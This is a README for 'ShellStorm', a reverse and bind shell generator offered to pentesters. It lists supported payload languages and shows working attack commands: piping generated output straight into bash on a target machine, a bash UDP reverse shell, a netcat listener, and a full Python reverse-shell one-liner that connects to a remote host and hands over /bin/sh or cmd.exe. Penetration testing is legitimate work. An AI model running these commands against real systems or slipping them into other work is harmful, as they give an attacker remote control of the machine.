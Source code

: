 # ShellStorm
Automatic reverse/bind shell generator cheat sheet.  

A compilation of knowledge over the years from many pentesters that you will recognize  
after reading the source code to make the process of creating reverse and bind connections easier  
for cybersecurity analysts.  
![alt text](https://github.com/0bfxgh0st/ShellStorm/blob/main/screenshots/Shellstorm.gif)

* Install requirements for generate **WAR** package.  
<pre>sudo apt-get update -y && sudo apt-get install default-jdk -y</pre>

## Available languages/programs  
<pre>
asp
awk
bash
c
cpan
dart
gawk
golang
groovy
java
jsp
lua
nc
nc-nef (netcat without -e flag, mkfifo)
nodejs
openssl
perl
php
php-daemon
php-simple
ps1
ps1-ds (powershell download string)
python
ruby
sbd
socat
telnet
war
</pre>

# TL;DR
## Try go further
* In some cases you can download shellstorm in any 'target' machine with Linux kernel (or WSL) and execute it by piping it if you prefer.  
<pre>
bash shellstorm.sh bash 10.2.54.13 1337 | bash
</pre>

* Do you want UDP shell? No problem, 'sed' it.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g'
Output:
bash -c "bash -i >& /dev/udp/127.0.0.1/1337 0>&1"
</pre>

* You can pipe it too.
<pre>
bash shellstorm.sh bash 127.0.0.1 1337 | sed -e 's/tcp/udp/g' | bash
Note:  
Remember use -u (udp) flag in netcat listener as following:  
nc -u -lvp 1337
</pre>

## Brains
In some cases you will find some payload that contains a **system call** as the following **'/bin/sh'** (for Linux) you can modify  
it by changing **'/bin/sh'** for **'cmd.exe'** and then you got a python payload for Windows in this case.  
<pre>
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
</pre>

### Relevant sources:  
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md">https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md</a>
